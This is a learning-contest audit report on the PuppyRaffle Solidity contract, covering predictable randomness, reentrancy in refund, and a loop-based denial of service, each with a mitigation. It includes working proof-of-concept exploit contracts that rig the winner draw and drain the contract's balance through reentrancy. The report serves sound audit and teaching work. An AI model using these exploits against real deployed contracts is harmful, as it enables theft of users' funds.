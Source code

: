 ![](logo.png) 
![](./img/puppy-raffle.png)

# Security Report for the PuppyRaffle CodeHawks FirstFlight Contest **learning*

**Source:** https://github.com/Cyfrin/2023-10-Puppy-Raffle

--------------------------------------------

### [H-1] Randomness Issue in `PuppyRaffle::selectWinner()`

#### Description:
The logic to select a winner is built on randomness. But this implementation can be gamed and an attacker can be chosen as a winner without random element.

<details>
<summary>Code</summary>

```solidity
    /// @notice this function will select a winner and mint a puppy
    /// @notice there must be at least 4 players, and the duration has occurred
    /// @notice the previous winner is stored in the previousWinner variable
    /// @dev we use a hash of on-chain data to generate the random numbers
    /// @dev we reset the active players array after the winner is selected
    /// @dev we send 80% of the funds to the winner, the other 20% goes to the feeAddress
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        totalFees = totalFees + uint64(fee);

        uint256 tokenId = totalSupply();

        // We use a different RNG calculate from the winnerIndex to determine rarity
        uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
        if (rarity <= COMMON_RARITY) {
            tokenIdToRarity[tokenId] = COMMON_RARITY;
        } else if (rarity <= COMMON_RARITY + RARE_RARITY) {
            tokenIdToRarity[tokenId] = RARE_RARITY;
        } else {
            tokenIdToRarity[tokenId] = LEGENDARY_RARITY;
        }

        delete players;
        raffleStartTime = block.timestamp;
        previousWinner = winner;
        (bool success,) = winner.call{value: prizePool}("");
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
    }
```

</details>

#### Impact:
Because all the variables to get a random winner on the contract are blockchain variables and are known, a malicious actor can use a smart contract to game the system and receive all funds and the NFT.

#### Proof of Concept:
Add the following `getter` function to the `PuppyRaffle` contract 👇🏾:

<details>
<summary>Code</summary>

```solidity
    /// @dev returns total number of players in the raffle
    function getNumPlayers() external view returns (uint256) {
        return players.length;
    }
```

</details>

The following contract can be used to exploit the randomness in the `PuupyRaffle::selectWinner()` function 👇🏾:

<details>
<summary>Code</summary>

```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.7.6;

    import {PuppyRaffle} from "./PuppyRaffle.sol";

    contract ExploitRandomness {
        PuppyRaffle puppy;

        constructor(address _puppy) {
            puppy = PuppyRaffle(_puppy);
        }

        function exploit() public {
            uint256 numPlayers = puppy.getNumPlayers();

            uint256 winnerIndex;
            uint256 toAdd = numPlayers;

            while (true) {
                winnerIndex = uint256(keccak256(abi.encodePacked(address(this), block.timestamp, block.difficulty))) % toAdd;
                if (winnerIndex == numPlayers) break;
                ++toAdd;
            }

            uint256 toLoop = toAdd - numPlayers;

            address[] memory playersToAdd = new address[](toLoop);
            playersToAdd[0] = address(this);

            for (uint256 a = 1; a < toLoop; ++a) {
                playersToAdd[a] = address(a + 100);
            }

            uint256 valueToSend = 1e18 * toLoop;

            puppy.enterRaffle{value: valueToSend}(playersToAdd);
            puppy.selectWinner();
        }

        receive() external payable {}

        function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data)
        public
        returns (bytes4)
        {
            return this.onERC721Received.selector;
        }
    }

```

</details>

#### Tools Used:
- Foundry
- Slither

#### Recommended Mitigation:
Use [Chainlink `VRF`](https://docs.chain.link/vrf) to handle randomness.

---------------------------------------------------

### [H-1] Risk of Reentrancy in `PuppyRaffle::refund()` function

#### Description:
The `PuppyRaffle::refund()` can be re-entered because it does not follow the `CEI` (Checks-Effects-Interactions) pattern. Basically, interaction(s) with an external account is made before effects(state is updated).

<details>
<summary>Code</summary>

```solidity
    /// @param playerIndex the index of the player to refund. You can find it externally by calling `getActivePlayerIndex`
    /// @dev This function will allow there to be blank spots in the array
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        // checks 👇🏾
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        // interaction 👇🏾
        payable(msg.sender).sendValue(entranceFee);

        // effects (state updates) 👇🏾
        players[playerIndex] = address(0);

        emit RaffleRefunded(playerAddress);
    }
```

</details>

#### Impact:
If the caller of the `PuppyRaffle::refund()` function is a contract with a `receive()` function, then the `PuppyRaffle::refund()` function can be re-entered before the state is updated.

#### Proof of Concept:

Create a `Hunter` contract 👇🏾:

<details>
<summary>Hunter</summary>

```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.7.6;

    import {PuppyRaffle} from "./PuppyRaffle.sol";

    contract Hunter {
        PuppyRaffle puppy;
        address hunter = address(this);

        constructor(PuppyRaffle _puppy) {
            puppy = _puppy;
        }

        function poach() public payable {
            require(msg.value == puppy.entranceFee());

            // create a dynamic array, and push the Hunter's address
            address[] memory players = new address[](1);
            players[0] = hunter; // address(this) is the address of this contract, which is the Hunter contract

            // enter raffle
            puppy.enterRaffle{value: msg.value}(players);

            // find index of the Hunter's address
            uint256 hunterIndex = puppy.getActivePlayerIndex(hunter);

            // refund hunter
            puppy.refund(hunterIndex);
        }

        receive() external payable {
            // find index of the Hunter's address
            uint256 hunterIndex = puppy.getActivePlayerIndex(hunter);

            if (address(puppy).balance >= 1e18) {
                puppy.refund(hunterIndex);
            }
        }
    }

```

</details>

Modify `PuppyRaffleTest.t.sol` test contract 👇🏾:
  
<details>
<summary>PuppyRaffleTest</summary>

````diff
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.7.6;
    pragma experimental ABIEncoderV2;

    import {Test, console} from "forge-std/Test.sol";
    import {PuppyRaffle} from "../src/PuppyRaffle.sol";
+   import {Hunter} from "../src/Hunter.sol";

    contract PuppyRaffleTest is Test {
        PuppyRaffle puppyRaffle;
        uint256 entranceFee = 1e18;
        address playerOne = address(1);
        address playerTwo = address(2);
        address playerThree = address(3);
        address playerFour = address(4);
        address feeAddress = address(99);
        uint256 duration = 1 days;

+       Hunter hunter;

        function setUp() public {
            puppyRaffle = new PuppyRaffle(entranceFee, feeAddress, duration);
+           hunter = new Hunter(puppyRaffle);
        }
    }
````
</details>

Add the following test 👇🏾:

<details>
<summary>Code</summary>

```solidity
    function testHunterReentrancyAttackSuccessful() public {
        address[] memory players = new address[](5);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        players[4] = address(hunter);
        puppyRaffle.enterRaffle{value: entranceFee * 5}(players);

        console.log(address(puppyRaffle).balance);
        assert(address(puppyRaffle).balance == 5e18);

        // attack logic
        uint256 hunterIndex = puppyRaffle.getActivePlayerIndex(address(hunter));
        // hunter attacks
        vm.prank(address(hunter));
        puppyRaffle.refund(hunterIndex);

        // assert PuppyRaffle's contract has been drained
        assert(address(puppyRaffle).balance == 0);
        // assert Hunter's balance has increased more than expected
        assert(address(hunter).balance == 5e18);
    }
```

</details>

#### Tools Used:

- Foundry
- Slither
- Manual Review
- Remix
- Chat GPT

#### Recommended Mitigation:

Re-arrange the `PuppyRaffle:refund()` fund to follow `CEI` pattern:

<details>
<summary>Code</summary>

```solidity
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        // Update state before sending Ether
        players[playerIndex] = address(0);

        // Now transfer the refund
        payable(msg.sender).sendValue(entranceFee);

        emit RaffleRefunded(playerAddress);
    }
```

</details>

Also the `nonReentrant` modifier from [OpenZeppelin `ReentrancyGuard`](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) could be used.

-----------------------------------------------------------------

### [M-1] Possible DoS attack due to loop through `players` array to check for duplicates in `PuppyRaffle::enterRaffle()` function, thus significant increase in gas costs for future entrants

#### Description:       
The `PuppyRaffle::enterRaffle()` conducts a duplicate address check whenever a new address wants to join the raffle, by looping through the `players` array. This method means that gas costs for performing that transaction (entering the raffle) are significantly cheaper for players who enter at the start of the raffle, and significantly costlier for players who enter the raffle at later stages. Every new player, is an extra `address` the `PuppyRaffle::enterRaffle()` function has to loop through when conducting duplicate address check.

<details>
<summary>Code</summary>

```solidity
        // Check for duplicates
            for (uint256 i = 0; i < players.length - 1; i++) {
                for (uint256 j = i + 1; j < players.length; j++) {
                    require(players[i] != players[j], "PuppyRaffle: Duplicate player");
                }
            } // @question could there be gas issues that could lead to a DOS attack because of this for loop?
```

</details>

#### Impact:
The gas costs for entering the raffle increases distrubingly as more players enter the raffle. This could cause a rush from players wanting to be one of the first in queue, as well as discourage prospective future players.   
An attacker could make the `PuppyRaffle::entrants`array so large that no other player is able to enter, thus guaranteeing themselves the win.

#### Proof of Concept:
If there are two sets of players, each set being 500 players large, below is the estimated gas costs:
- First 500 players: ~110091567 gas
- Next 500 players: ~405906812 gas
  
  That is a nearly 4x increase in gas costs for the next 500 players.

  <details>
  <summary>PoC</summary>
  Place the following test into the `PuppyRaffleTest.t.sol` test contract
    
    ```solidity
        function testDOS() public {
            // address[] memory players = new address[](1);
            // players[0] = playerOne;
            // puppyRaffle.enterRaffle{value: entranceFee}(players);
            // assertEq(puppyRaffle.players(0), playerOne);

            vm.txGasPrice(1); // set gas price to 1
            // Let's enter 500 players
            uint256 totalPlayers = 500;
            address[] memory players = new address[](totalPlayers);
            for (uint256 a = 0; a < totalPlayers; a++) {
                players[a] = address(a);
            }

            // gas calculations
            uint256 gasStart = gasleft();

            // enter raffle
            puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(players);

            // gas calculations
            uint256 gasEnd = gasleft();
            uint256 gasUsedForFirstFiveHundred = (gasStart - gasEnd) * tx.gasprice;
            console.log("The gas cost for the first 500 players is: ", gasUsedForFirstFiveHundred);

            // Let's enter extra 500 players
            // @note the higher the number of extra players you want to add, the more gas this test uses, and at a certain number(say 1000), the enterRaffle() function for the next set of players will fail with a out-of-gas error
            address[] memory playersExtra = new address[](totalPlayers);
            for (uint256 a = 0; a < totalPlayers; a++) {
                playersExtra[a] = address(a + totalPlayers);
                // @note -- the use of address(a + totalPlayers) is so that addresses start from 500+1 (501)
            }
            // gas calculations
            uint256 gasStartExtraPlayers = gasleft();

            // enter raffle for the extra 500 players
            puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(playersExtra);

            // gas calculations
            uint256 gasEndExtraPlayers = gasleft();
            uint256 gasUsedForNextFiveHundred = (gasStartExtraPlayers - gasEndExtraPlayers) * tx.gasprice;
            console.log("The gas cost for the extra 500 players is: ", gasUsedForNextFiveHundred);

            assert(gasUsedForFirstFiveHundred < gasUsedForNextFiveHundred);
        }
    ```

  </details>

#### Tools Used:
- Manual Review
- Foundry

#### Recommended Mitigation:
 Here are a few recommended mitigations:

- Consider using a `mapping` to check for duplicates. This will allow for constant time look up of whether a user has already entered the raffle.
- Consider allowing duplicate addresses. Especially since users can make new wallet addressess regardles, so a duplicate check doesn't prevent the same peron from entering multiple times, omly the same wallet address.
- Alternatively, [OpenZeppelin's `EnumerableSet` Library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet) could be used.
